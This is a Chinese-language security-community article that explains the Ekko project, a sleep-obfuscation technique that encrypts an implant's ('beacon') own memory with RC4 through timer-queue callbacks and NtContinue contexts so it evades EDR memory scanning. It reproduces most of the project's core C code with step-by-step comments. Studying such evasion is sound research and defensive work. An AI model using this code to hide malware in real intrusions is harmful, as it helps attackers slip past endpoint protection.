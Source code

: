 

# 奇安信攻防社区 -【Web 实战】内存免杀-Ekko 项目解读

### 【Web 实战】内存免杀-Ekko 项目解读

通过分析 Ekko 项目了解内存加密过程，这对对抗内存扫描来说很重要。

# **概述**

Edr 会扫描程序的内存空间，检测是否存在恶意软件，这种检测恶意软件的方式，应该和静态检测没什么区别，只不过一个扫描的对象是硬盘，一个是内存，应该都是基于特征码来检测的，为了绕过这种扫描我们可以对内存中的 beacon 进行加密，但这样的话就会出现问题，因为 beacon 被加密后是无法正常的运行的，因为代码被加密了。  
#  
我们提到过自己是不可以加密自己的，但是 Ekko 项目实现了自己加密自己的内存，这对对抗内存扫描很有帮助。

# **API 理解**

`CreateEvent()`创建或打开一个事件对象

`SetEvent()`设置对象状态已通知状态

`CreateTimerQueue()`创建计时器队列

`CreateTimerQueueTimer()`创建计时器队列计时器

```js

BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);
```

`phNewTimer`接受计时器队列计时器的缓冲区

`TimeQueue`计时器队列句柄

`CallBack`回调函数，计时器过期时要执行的函数

`Parameter`回调函数的参数

`DueTime`过多长时间向计时器发信号

`Period`计时器的周期，如果为 0 就向计时器发信号

`Flag`标志，指定函数调用相关内容。

对于`CreateTimerQueueTimer`函数可以这样理解，它可以定时执行一个函数，应该是异步执行的。

`WaitForSingleObject()`等待某个对象的状态，如果状态为已通知就往下执行，或者等待超时也会往下执行，也可以设置一直等待

`SystemFunction032()`通过 RC4 加密方式加密内存

`RtlCaptureContext()`得到当前线程的 CONTEXT 结构

对于`CONTEXT`结构可以理解为：用于存储线程运行时寄存器的值，RIP,RSP......

`NtContinue`() 对于这个函数确实不太理解，这里只需要知道给它传进去一个`CONTEXT`结构，就可以执行`CONTEXT`对应的代码，也就是可以控制程序执行流程。

# **Ekko 代码阅读**

一些不太重要的代码会跳过去

![image.png](assets/1701668709-3bd34dced2ccb3209e65cf4ea528da89.png)

```js
  hEvent = CreateEventW(0, 0, 0, 0);//创建一个未通知状态自动复位的事件
  hTimerQueue = CreateTimerQueue();//创建计时器队列
  NtContinue = GetProcAddress(GetModuleHandleA("Ntdll"), "NtContinue");//得到函数地址
  SysFunc032 = GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
  ImageBase = GetModuleHandleA(NULL);//当前程序地址
  ImageSize = ((PIMAGE_NT_HEADERS)((DWORD64)ImageBase + ((PIMAGE_DOS_HEADER)ImageBase)->e_lfanew))->OptionalHeader.SizeOfImage;//大小
```

这段代码通过调用`CreateTimerQueue`创建了一个计时器队列接着，通过调用`GetModuleHandleA`与`GetProcAddress`得到了`NtContinue`和`SystemFunction032`函数的地址，接着又得到了当前程序的基地址和当前程序的大小

![image.png](assets/1701668709-6f9a54ca5d92fb747e61cc453a9868c9.png)

```js
if (CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)RtlCaptureContext, &CtxThread, 0, 0, WT_EXECUTEINTIMERTHREAD))//调用 RtlCaptureContext 得到 CONTEXT 结构
    {
        WaitForSingleObject(hEvent, 0x32);//等待

        memcpy(&RopProtRW, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemEnc, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopDelay, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemDec, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopProtRX, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopSetEvt, &CtxThread, sizeof(CONTEXT));
```

通过`CreateTimerQueueTimer`创建了一个计时器，在创建后会立刻调用 (因为`DueTime`与`period`都是 0)`RtlCaptureContext`函数得到当前线程的`CONTEXT`结构，接着使用得到的`CONTEXT`结构初始化了一些`CONTEXT`结构，为下面的调用做准备。

![image.png](assets/1701668709-9ec2b48b2e88c447619197501e011dc1.png)

```js
        //构造 VirtualProtect 函数的 CONTEXT 结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProtect );
        RopProtRW.Rsp -= 8;
        RopProtRW.Rip = (DWORD64)VirtualProtect;
        RopProtRW.Rcx = (DWORD64)ImageBase;
        RopProtRW.Rdx = (DWORD64)ImageSize;
        RopProtRW.R8 = PAGE_READWRITE;
        RopProtRW.R9 = (DWORD64)&OldProtect;
        //构造 SystemFunction032 函数的 CONTEXT 结构，此函数用于加密内存
        // SystemFunction032( &Key, &Img );
        RopMemEnc.Rsp -= 8;
        RopMemEnc.Rip = (DWORD64)SysFunc032;
        RopMemEnc.Rcx = (DWORD64)&Img;
        RopMemEnc.Rdx = (DWORD64)&Key;
        //构造 WaitForSingleObject 函数的 CONTEXT 结构，此函数用于睡眠
        // WaitForSingleObject( hTargetHdl, SleepTime );
        RopDelay.Rsp -= 8;
        RopDelay.Rip = (DWORD64)WaitForSingleObject;
        RopDelay.Rcx = (DWORD64)NtCurrentProcess();
        RopDelay.Rdx = SleepTime;
        //构造 SystemFunction032 函数的 CONTEXT 结构，此函数用于解密内存
        // SystemFunction032( &Key, &Img );
        RopMemDec.Rsp -= 8;
        RopMemDec.Rip = (DWORD64)SysFunc032;
        RopMemDec.Rcx = (DWORD64)&Img;
        RopMemDec.Rdx = (DWORD64)&Key;
        //构造 VirtualProtect 函数的 CONTEXT 结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_EXECUTE_READWRITE, &OldProtect );
        RopProtRX.Rsp -= 8;
        RopProtRX.Rip = (DWORD64)VirtualProtect;
        RopProtRX.Rcx = (DWORD64)ImageBase;
        RopProtRX.Rdx = (DWORD64)ImageSize;
        RopProtRX.R8 = PAGE_EXECUTE_READWRITE;
        RopProtRX.R9 = (DWORD64)&OldProtect;
        //构造 SetEvent 函数 CONTEXT 结构，设置对象为已通知状态
        // SetEvent( hEvent );
        RopSetEvt.Rsp -= 8;
        RopSetEvt.Rip = (DWORD64)SetEvent;
        RopSetEvt.Rcx = (DWORD64)hEvent;
```

这段代码为调用`VirtualProtect`与`SystemFunction032`......做准备  
主要通过给`CONTEXT`结构的成员赋值，来模拟对应函数的调用 (当然这里不是真的调用)

![image.png](assets/1701668709-d1d6b3d03647ec7bba4b15cc54738817.png)

```js
    //等 100 毫秒向计时器发信号，通过 NtContinue 调用 VirtualProtect 取消内存可执行权限
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRW, 100, 0, WT_EXECUTEINTIMERTHREAD);
        //等 200 毫秒向计时器发信号，通过 NtContinue 调用 SystemFunction032 加密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemEnc, 200, 0, WT_EXECUTEINTIMERTHREAD);
        //等 300 毫秒向计时器发信号，通过 NtContinue 调用 WaitForSingleObject 进行睡眠
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopDelay, 300, 0, WT_EXECUTEINTIMERTHREAD);
```

这段代码负责加密，主要通过`CreateTimerQueueTimer`函数创建计时器，计时器在等待指定的毫秒后，调用回调函数 (也就是调用`NtContinue`) 而`NtContinue`则会根据我们传入的`CONTEXT`结构去执行对应的函数。

比如第一行，传入的是`VirtualProtect`函数的`CONTEXT`结构，那么`NtContinue`将会调用`VirtualProtect`

下面是调用流程，画的有点丑，师傅们见谅^ \_^......

![image.png](assets/1701668709-5f6618cedd857e23aa1e75a54ea62420.png)  
第二行就是调用`SystemFunction032`来对内存进行加密  
第三行就是调用`WaitForSingleObject`来实现睡眠，SleepTime 就是睡眠的时间

![image.png](assets/1701668709-c7aa091c434df5429692f0b8bf01b61a.png)  
下面来看一下解密内存部分

```js
 //等 400 毫秒向计时器发信号，通过 NtContinue 调用 SystemFunction032 解密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemDec, 400, 0, WT_EXECUTEINTIMERTHREAD);
        //等 500 毫秒向计时器发信号，通过 NtContinue 调用 VirtualProtect 更改内存权限为可执行
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRX, 500, 0, WT_EXECUTEINTIMERTHREAD);
        //等 600 毫秒向计时器发信号，通过 NtContinue 调用 SetEvent 设置对象为已通知状态
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopSetEvt, 600, 0, WT_EXECUTEINTIMERTHREAD);
```

第一行通过调用`SystemFunction032`来解密内存，第二行调用`VirtualProtect`设置内存权限为可读可写可执行，第三行调用`SetEvent`将事件对象设置为已通知状态。  
内存加密部分执行流程

![image.png](assets/1701668709-66bc14f649f957eee4a66c5c1770fe8a.png)

主要的代码已经介绍完了，下面来看一下效果。

# **效果**

**睡眠前**

![image.png](assets/1701668709-ab341a78c649c896a1b604d2ba3e82ce.png)  
**睡眠后**

![image.png](assets/1701668709-92d0170e739b95081a93e08573c04276.png)  
因为作者水平有限，文章中难免会出现错误和不足之处，如果有哪些不好的地方希望各位师傅斧正。

# **参考**

[https://github.com/Cracked5pider/Ekko](https://github.com/Cracked5pider/Ekko) Ekko 项目地址
